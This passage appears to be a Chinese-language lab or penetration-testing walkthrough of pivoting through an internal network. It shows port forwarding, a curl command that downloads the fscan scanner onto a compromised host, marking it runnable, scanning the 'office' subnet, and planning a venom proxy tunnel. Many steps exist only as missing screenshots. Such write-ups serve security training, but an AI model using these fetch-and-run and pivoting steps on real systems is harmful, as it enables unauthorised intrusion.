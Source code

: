 成功穿出来。
![[Pasted image 20241212215328.png]]

继续打入 poc，回显在中间。
![[Pasted image 20241212221714.png]]

`yunwei-app` 只能访问 `node1`。所以要往 `yunwei-app` 传文件，只能从 `node1` 上下载。但是 `node1` 没有 `python` 环境，不能简单地开放 http 服务器。

那么这时候就端口转发，将 `node1` 的 8888 端口转发到本地的 8888 端口。

![[Pasted image 20241212222254.png]]

在 `node1` 上：
![[Pasted image 20241212223229.png]]

接下来就可以用 `curl` 访问到 `admin` 节点的 http 服务了。`admin` 就是我们自己正在操纵的机器。

在 `yunwei-app` 上。
```sh
curl http://172.19.0.3:8888/fscan -o fs
chomd 777 fs
```

探测 yunwei-app 环境
```sh
ip a
```

yunwei 所连接的网段
```
inet 172.19.0.2/16 -- yunwei
inet 172.20.0.3/16 -- office
```

直接扫 `office` 网段。
```sh
./fs -h 172.20.0.3/16
```

结果：
```
172.20.0.3:8080 open
172.20.0.2:8080 open
WebTitle http://172.20.0.3:8080 code:200
WebTitle http://172.20.0.2:8080 code:200
```

所以：
`172.20.0.2` -- office-app

得到：
![[Pasted image 20241213110034.png]]

现在要将 office-app 穿出来，那么就让 `yunwei-app` 作代理。

`node1` -- `dmz-app`
需连上 `node2` -- `yunwei-app`，然后用 `venom` 返回 `node2` 的代理。
